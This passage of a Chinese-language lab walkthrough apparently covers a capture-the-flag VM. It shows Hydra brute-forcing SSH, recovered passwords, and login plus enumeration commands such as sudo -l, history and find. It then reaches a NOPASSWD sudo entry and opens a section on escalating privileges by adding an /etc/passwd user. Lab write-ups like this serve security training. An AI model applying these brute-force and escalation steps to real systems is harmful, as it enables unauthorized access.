 成功打开ssh的22端口、再次尝试使用hydra爆破系统用户

获得三个**用户及其密码**

    chandlerb UrAG0D!
    joeyt Passw0rd
    janitor Ilovepeepee

使用ssh登录用户

    ssh chandlerb@192.168.149.135
    随后输入密码即可

成功**登录**系统用户

随后可以做的仍然是那几步

   1.  ls -a ; find / "\*"
   2.  sudo -l
   3.  history
   4.  uname -a msf中查找内核漏洞

在janitor用户的工作目录下的一个目录中发现一个**密码文件**

    BamBam01
    Passw0rd
    smellycats
    P0Lic#10-4
    B4-Tru3-001
    4uGU5T-NiGHts
前三个为前面sql注入中发现过的，是重复的
后三个猜测为其他系统用户的密码、加入字典后再次使用hydra爆破

发现一个**新用户**

    fredf B4-Tru3-001
    并使用ssh登录

## 5.添加etcpasswd用户提权
在fredf用户发现可使用**root权限执行**程序

    (root) NOPASSWD: /opt/devstuff/dist/test/test
     
进入目录 
 
   cd /opt/devstuff/dist/test
 
执行文件

   ./test

得到该文件的内容

    python test.py read append
    读取一个文档，并把其最佳到一个文档中

**寻找**这个test.py文件

    find / -name "test.py" 2>/dev/null
    并把标准错误输入到空文件中
